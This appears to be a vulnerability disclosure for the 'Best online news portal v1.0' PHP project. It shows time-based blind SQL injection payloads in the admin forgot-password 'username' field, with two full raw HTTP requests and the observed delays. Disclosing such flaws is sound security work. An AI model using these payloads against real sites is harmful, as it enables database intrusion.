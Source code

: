 # Best online news portal v1.0 has SQL injection

BUG_Author:PEOIzEve

Website source address:https://www.sourcecodester.com/php/16067/best-online-news-portal-project-php-free-download.html

Vulnerability File: /101news/admin/forgot-password.php

POST parameter 'username' exists SQL injection vulnerability

Payload1:username=a' and (select 1 from (select(sleep(10)))a) AND 'a'='a&email=b&confirmpassword=c&newpassword=d&submit=

```
POST /101news/admin/forgot-password.php HTTP/1.1
Host: localhost
Content-Length: 111
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/101news/admin/forgot-password.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=k7m8rkajvoev3rcu6g7qup0660
Connection: close

username=a' and (select 1 from (select(sleep(10)))a) AND 'a'='a&email=b&confirmpassword=c&newpassword=d&submit=
```

The server's response time is 10 seconds

![image](https://github.com/PEOIzEve/bug_report/blob/main/sql1.png)

Payload2:username=a' and (select 1 from (select(sleep(15)))a) AND 'a'='a&email=b&confirmpassword=c&newpassword=d&submit=

```
POST /101news/admin/forgot-password.php HTTP/1.1
Host: localhost
Content-Length: 111
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/101news/admin/forgot-password.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=k7m8rkajvoev3rcu6g7qup0660
Connection: close

username=a' and (select 1 from (select(sleep(15)))a) AND 'a'='a&email=b&confirmpassword=c&newpassword=d&submit=
```

The server's response time is 15 seconds

![image](https://github.com/PEOIzEve/bug_report/blob/main/sql2.png)
